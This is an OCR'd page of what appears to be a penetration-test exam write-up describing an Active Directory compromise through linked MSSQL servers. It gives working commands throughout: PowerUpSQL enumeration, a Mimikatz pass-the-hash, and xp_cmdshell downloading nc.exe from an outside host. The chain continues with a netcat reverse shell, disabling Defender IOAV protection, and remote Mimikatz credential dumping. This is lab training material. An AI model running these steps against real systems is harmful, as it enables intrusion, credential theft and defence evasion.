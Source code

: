 ## Step to compromise
Enumerating the domain, we can see there is MSSQL instance running and a serviceprincipalname set 
for devsqladmin, we successfully kerberoasted the user, but failed to crack the hash. Running 
PowerUpSQL2 will allow us to enumerate the MSSQL Instance further. Running the following command 
will give us information about the SQL Instance:
```
Import-Module .\PowerUpSQL.ps1
Get-SQLInstanceDomain
```
Still using PowerUpSQL we look to see if there are any database links which will allow us to execute 
stored procedures.
```
Get-SQLServerLink -Instance [instance] -Verbose
Get-SQLServerLinkCrawl -Instance [instance] -Verbose
```
We can see in the verbose output that although we successfully connected to the Instance as ap 
the IsSysAdmin:0 means that we will not be allowed to enable xp_cmdshell. Luckily during enumeration 
of our USER machine, we acquired the NTLM hash of reportuser. Using Over pass the hash method we 
can get a powershell prompt in the context of reportuser.
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:reportuser /domain:[domain] /ntlm:[hash] /run:powershell.exe"'
```
We re-run our PowerUpSQL commands, and can see that reportuser has IsSysAdmin:1, allowing us to 
enable xp_cmdshell and successfully get a reverse shell
```
Get-SQLServerLinkCrawl -Instance [instance] -verbose
```
Now we can try running Queries to get code execution, we test with running whoami and can see that 
we are running as user\admin.
```
Get-SQLServerLinkCrawl -Instance [instance] -Query 'exec master..xp_cmdshell "whoami"'
```
Now let’s try to upload nc.exe to the C:\Windows\Temp folder and execute it to give us a reverse shell 
as devsqladmin
```
Get-SQLServerLinkCrawl -Instance ms01.oscp.exam -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadFile(''http://192.168.49.150/nc.exe'',''C:\Windows\Temp\nc.exe'')"'
```
After nc.exe is successfully uploaded we can run the following command to execute it and send us 
reverse shell on port 9001 and running cmd.exe
```
Get-SQLServerLinkCrawl -Instance ms01.oscp.exam -Query 'exec master..xp_cmdshell "C:\Windows\Temp\nc.exe 192.168.49.105 9001 -e cmd.exe"'
```
Using the USER machine, we listen on port 9001 and successfully get a shell as user\devsqladmin
```
nc.exe -lnvp 9001
```
Enumerating DEVSRV shows us that devsqladmin is a local administrator. We add the AD user to 
the Local Administrators and Remote Desktop Users group, so that we can use PSRemoting to execute 
locally loaded functions such as Invoke-Mimikatz on the remote machine. To do this we first 
DisableIOAVProtection so that we can easily run Mimikatz.
```
$sess = New-PSSession -ComputerName [computername]
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection 
$true} -Session $sess
```
Now we can locally load the function Invoke-Mimikatz
```
Import-Module .\Invoke-Mimikatz.ps1
Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess
```
